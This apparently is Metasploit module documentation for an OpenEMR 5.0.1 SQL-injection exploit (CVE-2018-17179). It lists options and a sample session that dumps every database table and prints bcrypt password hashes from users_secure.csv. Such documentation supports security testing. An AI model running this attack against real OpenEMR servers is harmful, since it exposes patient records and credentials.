 ## Intro

This module exploits a SQLi vulnerability found in
OpenEMR version 5.0.1 Patch 6 and lower. The
vulnerability allows the contents of the entire
database (with exception of log and task tables) to be
extracted.

This module saves each table as a \'.csv\' file in your
loot directory and has been tested with
OpenEMR 5.0.1 (3).


## Author

Will Porter (will.porter@lodestonesecurity.com) from Lodestone Security


## References

https://www.cvedetails.com/cve/CVE-2018-17179/
https://github.com/openemr/openemr/commit/3e22d11c7175c1ebbf3d862545ce6fee18f70617


## Options

```
msf5 auxiliary(sqli/openemr/openemr_sqli_dump) > show options

Module options (auxiliary/sqli/openemr/openemr_sqli_dump):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target address range or CIDR identifier
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /openemr         yes       The base path to the OpenEMR installation
   VHOST                       no        HTTP server virtual host
```

## Usage

This module has both `check` and `run` functions.

```
msf5 > use auxiliary/sqli/openemr/openemr_sqli_dump
msf5 auxiliary(sqli/openemr/openemr_sqli_dump) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 auxiliary(sqli/openemr/openemr_sqli_dump) > check

[*] Trying to detect installed version
[*] 127.0.0.1:80 - The target appears to be vulnerable.
msf5 auxiliary(sqli/openemr/openemr_sqli_dump) > run
[*] Running module against 127.0.0.1

[*] DB Version: 10.3.15-MariaDB-1
[*] Enumerating Tables, this may take a moment...
[*] Identified 310 tables.
[*] Created dump directory: /root/.msf4/loot/openemr-a323pl20
[*] Dumping table (1/310): ALL_PLUGINS
[*] Dumping table (2/310): APPLICABLE_ROLES
[*] Dumping table (3/310): CHARACTER_SETS
[*] Dumping table (4/310): CHECK_CONSTRAINTS
[*] Dumping table (5/310): COLLATIONS

...

[*] Dumping table (305/310): medex_recalls
[*] Dumping table (306/310): syndromic_surveillance
[*] Dumping table (307/310): lang_constants
[*] Dumping table (308/310): gacl_acl_seq
[*] Dumping table (309/310): background_services
[*] Dumping table (310/310): geo_country_reference
[*] Dumped all tables to /root/.msf4/loot/openemr-a323pl20
[*] Auxiliary module execution completed
msf5 auxiliary(sqli/openemr/openemr_sqli_dump) > exit

root@localhost:/tmp# cd /root/.msf4/loot/openemr-a323pl20
root@localhost:~/.msf4/loot/openemr-a323pl20# cat users_secure.csv
id,username,password,salt,last_update,password_history1,salt_history1,password_history2,salt_history2
1,admin,$2a$05$bxcQWy1ZeIwV2/ScGBQlTOeUVqJo9MdvHuF1mBs4Jo7H0/bFpZoPK,$2a$05$bxcQWy1ZeIwV2/ScGBQlTZ$,2019-08-27 20:07:13,"","","",""
4,johndoemsf,$2a$05$gUWCtnsoqPBbn5zKiasyaOphgJwkA9BySy7LnK3BswyWt0RrLb0Ma,$2a$05$gUWCtnsoqPBbn5zKiasyaQ$,2019-08-29 02:01:28,"","","",""
6,johnderp,$2a$05$nAHQ7japfATDqqgArPImlu5svMG79W1nj1SNBpE7xkEhS42.AvlWq,$2a$05$nAHQ7japfATDqqgArPImlv$,2019-08-29 02:02:32,"","","",""
7,janedoemsf,$2a$05$uv85uBLeAOWQWWl9hHGL0uUy1KZSTgNGbZfJ9o8Lg0ILuSeGCNDbm,$2a$05$uv85uBLeAOWQWWl9hHGL06$,2019-08-29 02:09:37,"","","",""
```
